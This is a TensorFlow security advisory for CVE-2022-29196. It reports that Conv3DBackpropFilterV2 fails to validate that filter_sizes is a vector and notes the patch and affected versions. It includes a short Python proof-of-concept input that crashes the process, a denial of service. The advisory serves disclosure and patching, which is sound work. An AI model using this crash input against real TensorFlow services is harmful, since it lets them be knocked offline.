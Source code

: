 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-070.md
## TFSA-2022-070: Missing validation causes denial of service via `Conv3DBackpropFilterV2`

### CVE Number
CVE-2022-29196

### Impact
The implementation of [`tf.raw_ops.Conv3DBackpropFilterV2`](https://github.com/tensorflow/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/conv_grad_ops_3d.cc) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

tf.raw_ops.Conv3DBackpropFilterV2(
  input=tf.constant(.5053710941, shape=[2,2,2,2,1], dtype=tf.float16),
  filter_sizes=tf.constant(0, shape=[], dtype=tf.int32),
  out_backprop=tf.constant(.5053710941, shape=[2,2,2,2,1], dtype=tf.float16),
  strides=[1, 1, 1, 1, 1],
  padding="VALID",
  data_format="NDHWC",
  dilations=[1, 1, 1, 1, 1])
```

The code does not validate that the `filter_sizes` argument is a vector.

### Patches
We have patched the issue in GitHub commit [174c5096f303d5be7ed2ca2662b08371bff4ab88](https://github.com/tensorflow/tensorflow/commit/174c5096f303d5be7ed2ca2662b08371bff4ab88).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
